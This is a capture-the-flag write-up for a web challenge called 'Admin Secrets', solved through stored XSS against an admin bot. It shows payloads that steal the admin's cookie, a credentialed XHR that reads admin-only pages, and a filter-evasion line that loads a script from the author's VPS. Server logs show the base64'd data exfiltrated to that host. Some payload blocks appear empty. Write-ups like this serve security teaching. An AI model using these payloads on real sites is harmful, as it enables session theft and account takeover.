

## Admin Secrets
### Category : Web

TDLR;

XSS Challenge, with filter evasion.

So, Challenge description was `See if you can get the flag from the admin at this website!`. 

We visit the given URL, and greeted with a Sign Up page. 

On creating a account, we have the ability to make posts.

The interesting part was, the created posts can now be "reported" to the admin. Clearly we have to steal something from the admin. I started checking for a possible XSS vulnerabilit.


First Payload `<script>alert('XSS');</script>` and booyah, we get a alert. 



So, I setup a a VPS, with a `python3 http.server` running in the background to log requests.

First thing, I thought was to steal cookies?

My payload :

```
<script> document.children[0].innerHTML+=''</script>
```

Explanation :: I add a new element in the body, a img with the src = myVPS and document.cookie base64'd to prevent any spaces breaking the get request. 

I get the following request
```
3.83.190.219 - - [24/May/2020 19:09:50] "GET /?data?cookie=aGludD0iQ2hlY2sgdGhlIGFkbWluIGNvbnNvbGUhXDAxMiI= HTTP/1.1" 200 
```

On decoding cookie : 
```
hint="Check the admin console!\012"
```
Aah, I'll need the source of the page. I use the following payload to get the source

```
<script>var xhr = new XMLHttpRequest(); xhr.onreadystatechange=function(){if (xhr.readyState == 4){ document.children[0].innerHTML+='';}}; xhr.open(`GET`, `/posts/E9Rx1Qvl6xaXEmnX`,true); xhr.withCredentials = true;xhr.send(null);
</script>
```

Explanation : I create a XHRRequest, which goes and steals a page from one of the posts, and returns the base64 of the page's source.

Decode Source

```
<!doctype html>
<html>
    <head>
        <meta charset="utf-8">
        <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
        <title>Textbin</title>
        <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.3.1/css/bootstrap.min.css" integrity="sha384-ggOyR0iXCbMQv3Xipma34MD+dH/1fQ784/j6cY/iJTQUOhcWr7x9JvoRxT2MZw1T" crossorigin="anonymous">
        <link rel="stylesheet" href="/static/css/style.css">
    </head>
    <body>
        <nav class="navbar navbar-expand-lg navbar-light bg-light">
          <button class="navbar-toggler" type="button" data-toggle="collapse" data-target="#navbarNav" aria-controls="navbarNav" aria-expanded="false" aria-label="Toggle navigation">
            <span class="navbar-toggler-icon"></span>
          </button>
          <div class="collapse navbar-collapse" id="navbarNav">
            <ul class="navbar-nav">
              <li class="nav-item active">
                <a class="nav-link" href="/">Home<span class="sr-only">(current)</span></a>
              </li>
              
            </ul>
          </div>
        </nav>
        <div class="container">
            <div class="row">
                <div class="col-12">
                    <h1>Textbin</h1>
                </div>
            </div>
            <div class="row">
                <div class="col-8 textbody">
                    
                         
                    
                </div>
            </div>
            <div class="row">
                <div class="col-8" >
                    
                        <small>By user <code>123456</code></small>
                    
                </div>
            </div>

            <div class="row" style="margin-bottom:10px">
                <div class="col-8" >
                    <button type="button" class="btn btn-warning" id="report">Report to Admin</button>
                </div>
            </div>
            <div class="row">
                <div class="col-8 admin_console" >
                    <!-- Only the admin can see this -->
                    
                        
                            <button  class="btn btn-primary flag-button">Access Flag</button>

<a href="/button" class="btn btn-primary other-button">Delete User</a>

<a href="/button" class="btn btn-primary other-button">Delete Post</a>
 
                        
                    
                </div>
            </div>
            <div id="responseAlert" class="alert alert-info" role="alert"></div>
        </div>
        <script src="https://code.jquery.com/jquery-3.3.1.min.js" crossorigin="anonymous"></script>
        <script src="https://cdnjs.cloudflare.com/ajax/libs/popper.js/1.14.7/umd/popper.min.js" integrity="sha384-UO2eT0CpHqdSJQ6hJty5KVphtPhzWj9WO1clHTMGa3JDZwrnQq4sF86dIHNDz0W1" crossorigin="anonymous"></script>
        <script src="https://stackpath.bootstrapcdn.com/bootstrap/4.3.1/js/bootstrap.min.js" integrity="sha384-JjSmVgyd0p3pXB1rRibZUAYoIIy6OrQ6VrjIEaFf/nJGzIxFDsf4x0xIM+B07jRM" crossorigin="anonymous"></script>
        <script>
            
            $('#responseAlert').css('display','none');
            $('#report').on('click',function(e){
                $.ajax({
                    type: "GET",
                    url: window.location.pathname+"/report",
                    success: function(resp) {
                        $("#responseAlert").text(resp); $("#responseAlert").css("display","");
                    }
                })
            });
            

                var flag='';
                f=function(e){

                    $.ajax({
                        type: "GET",
                        url: "/admin_flag",
                        success: function(resp) {
                            flag=resp;$("#responseAlert").text(resp); $("#responseAlert").css("display","");
                        }
                    })
                    return flag;
                };
                $('.flag-button').on('click',f);
            

             
        </script>
    </body>
</html>
```


And, we find the endpoint `/admin_flag`.


I modify my XHR request, to go and borrow `admin_flag` instead one of the posts. 

```
3.83.190.219 - - [24/May/2020 19:25:36] "GET /?data?cookie=VGhpcyBwb3N0IGNvbnRhaW5zIHVuc2FmZSBjb250ZW50LiBUbyBwcmV2ZW50IHVuYXV0aG9yaXplZCBhY2Nlc3MsIHRoZSBmbGFnIGNhbm5vdCBiZSBhY2Nlc3NlZCBmb3IgdGhlIGZvbGxvd2luZyB2aW9sYXRpb25zOiBTY3JpcHQgdGFncyBmb3VuZC4gU2luZ2xlIHF1b3RlIGZvdW5kLiBEb3VibGUgcXVvdGUgZm91bmQuIEJhY2t0aWNrIGZvdW5kLiBQYXJlbnRoZXNpcyBmb3VuZC4g HTTP/1.1" 200 -
```

Decoded Response :
```
This post contains unsafe content. To prevent unauthorized access, the flag cannot be accessed for the following violations: Script tags found. Single quote found. Double quote found. Backtick found. Parenthesis found. 
```

Now, it's a XSS Filter Evasion. We have a filter for Script tage, both quotes, backticks AND Parenthesis. 

Wow!

My idea, now is to make the payload, such that it grabs the main script from my VPS, and then moves forward. The following payload is what I get..


```

```

Explanation ::

img has a unknown src, which will cause a error. Which get the onerror part of the tag to activate. The onerror part has `eval(atob(this.id))` encoded into HTML tag, which decoder id, and evaluates as a js script.


this.id when decoded gives

```
var a=document.createElement("script");a.src="http://myvps.com/script";document.body.appendChild(a);
```

We get the following result:

```
3.83.190.219 - - [24/May/2020 19:28:47] "GET /?data?cookie=dGpjdGZ7c3QwcF9zdDNhbGluZ190aDNfQURtMW5zX2ZsNGdzfQ== HTTP/1.1" 200 -

```

When decoded gives the flag 


```
tjctf{st0p_st3aling_th3_ADm1ns_fl4gs}
```

This was one hell of a challenge, really fun to solve, no guessing! .
